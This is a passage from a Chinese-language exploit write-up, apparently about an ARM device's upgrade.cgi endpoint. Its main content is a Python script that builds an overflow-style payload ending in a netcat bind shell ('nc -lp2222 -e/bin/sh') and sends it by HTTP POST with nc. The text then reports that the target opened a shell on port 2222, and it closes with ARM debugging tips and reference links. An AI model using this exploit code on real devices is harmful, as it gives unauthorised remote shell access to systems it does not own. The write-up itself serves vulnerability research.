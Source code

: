 ```python
success('gad4:'+hex(1995918000))

payload += ('le3d1ng;' * 0x50 + 'nc\x20-lp2222\x20-e/bin/sh\x20>') # slide to binsh


print len(payload)
#exit()
payload = 'echo "POST /cgi-bin/admin/upgrade.cgi \nHTTP/1.0\nContent-Length:{}\n\r\n\r\n"  | nc -v 10.10.10.2 80'.format(payload)
os.system(payload)
print payload
```

测试一下：

![5cdaf845ec7e175565](https://i.loli.net/2019/05/15/5cdaf845ec7e175565.png)

打过去之后目标成功监听2222端口，nc过去即可getshell

---

5.16后记:  
  
  可以使用qemu + rinetd + armlinuxserver + IDA 来动态调试arm程序
  修复armlinuxserver运行库环境可以使用 `ln -s  /lib/ld-linux-armhf.so.3  /lib/ld-linux.so.3` , [参考](https://bbs.pediy.com/thread-224337.htm)  
  

---

ref:

https://paper.seebug.org/480/#_4

https://paper.seebug.org/879/

https://xz.aliyun.com/t/5054#toc-8
